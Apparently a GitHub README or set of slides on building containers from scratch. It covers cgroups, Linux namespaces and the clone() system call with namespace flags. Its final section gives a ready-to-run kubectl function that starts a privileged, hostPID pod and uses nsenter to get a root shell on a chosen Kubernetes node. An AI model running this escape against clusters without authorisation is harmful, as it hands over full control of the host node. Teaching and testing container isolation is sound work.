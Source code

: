 # Building a container from scratch

## Cgroups

       Control  groups, usually referred to as cgroups, are a Linux kernel feature which allow processes to be organized into hierarchical groups
       whose usage of various types of resources can then be limited and monitored.  The kernel's cgroup interface is provided through a  pseudo-
       filesystem called cgroupfs.  Grouping is implemented in the core cgroup kernel code, while resource tracking and limits are implemented in
       a set of per-resource-type subsystems (memory, CPU, and so on).
---

## Linux Namespces

       A  namespace  wraps  a  global system resource in an abstraction that makes it appear to the processes within the namespace that they have
       their own isolated instance of the global resource.  Changes to the global resource are visible to other processes that are members of the
       namespace, but are invisible to other processes.  One use of namespaces is to implement containers.

       Linux provides the following namespaces:

       Namespace   Constant          Isolates
       Cgroup      CLONE_NEWCGROUP   Cgroup root directory
       IPC         CLONE_NEWIPC      System V IPC, POSIX message queues
       Network     CLONE_NEWNET      Network devices, stacks, ports, etc.
       Mount       CLONE_NEWNS       Mount points
       PID         CLONE_NEWPID      Process IDs
       User        CLONE_NEWUSER     User and group IDs
       UTS         CLONE_NEWUTS      Hostname and NIS domain name

---

# Arbitrary code

We use this code to demonstrate the `clone` system call. 
We demonstrate how we are able to spawn new processes with different namespaces defined [here](http://man7.org/linux/man-pages/man2/clone.2.html)

The three examples used in this code snippet are:

---

```bash
  // -----------------------------------------------------------------------------
  // clone() calls
  //
  //int pid = clone(fn, pchild_stack + (1024 * 1024), SIGCHLD, NULL); // Same Pid, Same Disk
  //
  //int pid = clone(fn, pchild_stack + (1024 * 1024), CLONE_NEWPID | SIGCHLD, NULL); // Different Pid, Same Disk
  //
  int pid = clone(fn, pchild_stack + (1024 * 1024), CLONE_NEWPID | CLONE_NEWNET | CLONE_NEWNS | SIGCHLD, NULL); // Different Pid, Different Disk
  //
  // -----------------------------------------------------------------------------
```

It is important to not that `unshare` has similar functionality and features a convenient command line tool.
More information on `unshare` can be found [here](http://man7.org/linux/man-pages/man1/unshare.1.html).

---

# Cgroups

```bash

/sys/fs/cgroup



---

# Hacking into a Kubernetes Node

```bash
function scary () {
  kubectl run scary --restart=Never -t -i \
     --image overridden --overrides \
    '{
      "spec":{
        "hostPID": true,
        "nodeName": "'$1'",
        "containers":[{
          "name":"busybox",
          "image":"alpine",
          "command":[
            "nsenter",
            "--mount=/proc/1/ns/mnt",
            "--","/bin/bash"],
          "stdin": true,
          "tty":true,
          "securityContext":{
            "privileged":true
          }
        }]
      }
    }' --rm --attach
}```